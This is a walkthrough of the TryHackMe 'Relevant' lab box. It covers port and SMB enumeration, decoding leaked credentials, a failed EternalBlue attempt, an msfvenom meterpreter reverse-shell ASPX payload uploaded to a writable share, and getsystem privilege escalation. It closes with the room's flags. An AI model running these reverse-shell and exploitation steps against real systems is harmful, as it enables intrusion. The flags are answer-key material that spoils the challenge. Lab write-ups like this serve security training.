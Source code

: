 
# Relevant CTF Walkthrough

Relevant is a vulnerable server on TryHackMe.com<br />
<br />
<i>URL: https://tryhackme.com/room/Relevant<br />
THM Difficulty: Medium<br />
My Difficulty: Easy<br />
Target IP: 10.10.39.76<br />
AttackBox IP: 10.10.153.77<br />
</i>

# Enumeration

For our first command we will use rustscan, rustscan will scan all of the ports in around 3 seconds.<br />
```shell
rustscan -a 10.10.39.76
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT1.png?raw=true)<br />
Now we know which ports are open, I run an Nmap scan with the flag -sV to find the service versions on the open ports.<br />
```shell
nmap -sV -sC -p80,135,139,445,3389,5985,49663,49667,49669 10.10.39.76
```
```shell
Starting Nmap 7.60 ( https://nmap.org ) at 2023-03-08 18:21 GMT
Nmap scan report for ip-10-10-39-76.eu-west-1.compute.internal (10.10.39.76)
Host is up (0.0054s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2023-03-07T18:16:50
|_Not valid after:  2023-09-06T18:16:50
|_ssl-date: 2023-03-08T18:21:59+00:00; -1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49663/tcp open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:A8:11:CA:08:F3 (Unknown)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: RELEVANT, NetBIOS user: <unknown>, NetBIOS MAC: 02:a8:11:ca:08:f3 (unknown)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-03-08T10:21:59-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-08 18:21:59
|_  start_date: 2023-03-08 18:17:08

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.63 seconds
```
We have found a few open ports with different services, let's try to find some vulnerabilities!

## SMB Service Enumeration

### Nmap SMB-enum scripts

Firstly we'll try using the SMB-enum scripts on Nmap<br />
```shell
nmap -p 139,445 -Pn -script smb-enum* 10.10.39.76
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT7.png?raw=true)<br />
Interesting, we have read/write access on this share... We'll try to use that to exploit the service if we can't find anything else.<br />

### Nmap SMB-vuln scripts

Let's do the same thing but with the SMB vuln scripts to see if there are any vulnerabilities.<br />
```shell
nmap -p 139,445 -Pn -script smb-vuln* 10.10.39.76
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT6.png?raw=true)<br />
Bingo! It looks like the SMB server is vulnerable to MS17-010. We'll enumerate more then exploit this!<br />

### Listing SMB shares

Let's have a look at the SMB service, we'll try to list the shares on the system to see if we can access anything.<br />
```shell
smbclient -L 10.10.39.76
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT2.png?raw=true)<br />

### Listing files on SMB shares

We were able to list the shares without entering a password and it looks like we have access to the share "nt4wrksv". Let's try connecting to the share now and listing the contents.<br />
```shell
smbclient \\\\10.10.39.76\\nt4wrksv
ls
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT3.png?raw=true)<br />
Ooh a file named ```passwords.txt``` let's download the file and have a look inside...
```shell
get passwords.txt
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT4.png?raw=true)<br />
Inside we see two passwords that have been encoded... Looks like Base64 to me, let's try decoding them!<br />

Awesome! We have two accounts now.<br />

#Exploitation


## MS17-010 Remote Code Execution

We're going to use Metasploit to exploit the vulnerability, let's fire it up.<br />
```shell
msfconsole
```
Once we have Metasploit open we're going to select the module to use and then set the required options.<br />
```shell
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS 10.10.39.76
set SMBUser Bill
set SMBPass Juw4nnaM4n420696969!$$$
exploit
```
... Damn that didn't work... Nevermind let's try something else!<br />

## Exploiting SMB Permissions

Earlier when we performed our Nmap scan with default scripts enabled, we saw that we had read/write permissions on the nt4wrksv share. Let's create a reverse shell with msfvenom.<br />
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.153.77 LPORT=4444 -f aspx > shell.aspx
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT8.png?raw=true)<br />
Now let's upload it to the SMB share.
```shell
smbclient \\\\10.10.39.76\\nt4wrksv
put shell.aspx
```
Before getting the shell to run, we'll need to start our meterpreter reverse_tcp listener! Let's load up Metasploit to do this.<br />
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.153.77
set LPORT 4444
exploit
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT9.png?raw=true)<br />
Now we have our listener, let's run the shell. We head over to our web browser and execute the shell.<br />
```shell
http://10.10.39.76:49663/nt4wrksv/shell.aspx
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT10.png?raw=true)<br />
Success! Now we have our reverse meterpreter shell. (The target box crashed so I had to restart it, it's a new IP if you didn't notice.)<br />

# Escalating Privileges

Let's check what user we're on and then spawn a shell and check our privileges.<br />
```shell
getuid
shell
whoami /priv
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT11.png?raw=true)<br />
Interesting... SeImpersonatePrivilege is enabled. We can use meterpreter to automatically elevate our privileges.<br />

Let's close our shell with Ctrl+C and use meterpreter to execute the following<br />
```shell
getsystem
getuid
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT12.png?raw=true)<br />
Awesome! We have successfully elevated our privileges. Let's get the root flag and complete the box.<br />
```shell
cd C:/Users/Administrator/Desktop
cat root.txt
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT13.png?raw=true)<br />


## Questions & Answers

Question 1:<br />
**What is the user flag?** THM{fdk4ka34vk346ksxfr21tg789ktf45}<br />

Question 2:<br />
**What is the root flag?** THM{1fk5kf469devly1gl320zafgl345pv}<br />

### Farewell, I hope you all enjoyed this write-up!

